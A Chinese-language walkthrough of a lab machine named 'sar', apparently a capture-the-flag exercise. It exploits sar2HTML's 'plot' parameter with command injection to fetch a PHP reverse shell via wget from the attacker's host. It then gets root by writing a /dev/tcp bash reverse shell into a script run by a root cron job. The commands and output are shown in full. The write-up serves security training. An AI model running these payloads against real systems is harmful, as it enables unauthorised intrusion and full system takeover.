



## 端口扫描

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT --min-rate 9999 192.168.99.49
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-26 21:29 EST
Nmap scan report for 192.168.99.49
Host is up (0.0019s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:EC:FA:26 (VMware)

┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT -sCV -O -p 80 192.168.99.49

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:EC:FA:26 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.66 seconds

┌─[✗]─[fforu@parrot]─[~]
└──╼ $sudo nmap -sT --script=vuln -p 80 192.168.99.49
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-26 22:35 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 192.168.99.49
Host is up (0.0011s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /robots.txt: Robots file
|_  /phpinfo.php: Possible information file
MAC Address: 00:0C:29:EC:FA:26 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 74.19 seconds
```


## 目录扫描

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.99.49 -x txt,zip,rar,html,php -t 100
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.99.49
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,zip,rar,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 10918]
/robots.txt           (Status: 200) [Size: 9]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/phpinfo.php          (Status: 200) [Size: 95413]
/server-status        (Status: 403) [Size: 278]
```
普通扫描扫不出结果，扫隐藏文件，发现了robots.txt
那么直接访问
得到如下信息

sar2HTML

## sar2HTML
searchsploit直接搜索sar2HTML

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $searchsploit sar2HTML
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution                                                                                                            | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                                                                                                                | php/webapps/47204.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
下载py脚本使用
```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $python3 49344.py 
Enter The url => 192.168.99.49
Command => whoami
Traceback (most recent call last):
  File "/usr/lib/python3.11/cmd.py", line 214, in onecmd
    func = getattr(self, 'do_' + cmd)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^
AttributeError: 'Terminal' object has no attribute 'do_whoami'

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/home/fforu/workspace/49344.py", line 39, in <module>
    terminal.cmdloop()
  File "/usr/lib/python3.11/cmd.py", line 138, in cmdloop
    stop = self.onecmd(line)
           ^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/cmd.py", line 216, in onecmd
    return self.default(line)
           ^^^^^^^^^^^^^^^^^^
  File "/home/fforu/workspace/49344.py", line 20, in default
    exploiter(args)
  File "/home/fforu/workspace/49344.py", line 25, in exploiter
    output = sess.get(f"{url}/index.php?plot=;{cmd}")
             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/requests/sessions.py", line 600, in get
    return self.request("GET", url, **kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/requests/sessions.py", line 573, in request
    prep = self.prepare_request(req)
           ^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/requests/sessions.py", line 484, in prepare_request
    p.prepare(
  File "/usr/lib/python3/dist-packages/requests/models.py", line 368, in prepare
    self.prepare_url(url, params)
  File "/usr/lib/python3/dist-packages/requests/models.py", line 439, in prepare_url
    raise MissingSchema(
requests.exceptions.MissingSchema: Invalid URL '192.168.99.49/index.php?plot=;whoami': No scheme supplied. Perhaps you meant http://192.168.99.49/index.php?plot=;whoami?
```
报错了
应该是路径错了，192.168.99.49/index.php没有此页面
正确路径如下

此时在输入我们想执行的命令就发现成功回显

可以下一个反弹shell的马     

## 获得第一个立足点

本机开启了web服务
利用rce下载木马
`http://192.168.99.49/sar2HTML/index.php?plot=;wget%20http://192.168.99.35:9999/php-reverse-shell.php`
访问`http://192.168.99.49/sar2HTML/php-reverse-shell.php`即收到反弹shell
```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nc -lvnp 1234
[sudo] fforu 的密码：
listening on [any] 1234 ...
connect to [192.168.99.35] from (UNKNOWN) [192.168.99.49] 58088
Linux sar 5.0.0-23-generic #24~18.04.1-Ubuntu SMP Mon Jul 29 16:12:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:24:18 up 22 min,  0 users,  load average: 0.00, 3.23, 10.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

## 计划任务提权
```bash
www-data@sar:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
www-data@sar:/$ find / -name finally.sh -type f 2>/dev/null
find / -name finally.sh -type f 2>/dev/null
/var/www/html/finally.sh
www-data@sar:/$ cat /var/www/html/finally.sh
cat /var/www/html/finally.sh
#!/bin/sh

./write.sh
www-data@sar:/$ cd /var/www/html
cd /var/www/html
www-data@sar:/var/www/html$ ls
ls
finally.sh  index.html  phpinfo.php  robots.txt  sar2HTML  write.sh
www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/sh

touch /tmp/gateway
www-data@sar:/var/www/html$ echo '#!/bin/bash' >write.sh
echo '#!/bin/bash' >write.sh
www-data@sar:/var/www/html$ echo 'bash -i >& /dev/tcp/192.168.99.35/4444 0>&1'>>write.sh
<h -i >& /dev/tcp/192.168.99.35/4444 0>&1'>>write.sh
www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.99.35/4444 0>&1
```
发现了存在计划任务，将`bash -i >& /dev/tcp/192.168.99.35/4444 0>&1`反弹shell语句追加到计划任务，将rootshell反弹回来
等待几分钟后得到rootshell
```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nc -lvnp 4444
[sudo] fforu 的密码：
listening on [any] 4444 ...
connect to [192.168.99.35] from (UNKNOWN) [192.168.99.49] 50986
bash: cannot set terminal process group (4529): Inappropriate ioctl for device
bash: no job control in this shell
root@sar:/var/www/html# whoami                                            
whoami
root
root@sar:/var/www/html# ls /root
ls /root
root.txt
snap
root@sar:/var/www/html# cat /root/root.txt
cat /root/root.txt
66f93d6b2ca96c9ad78a8a9ba0008e99
```
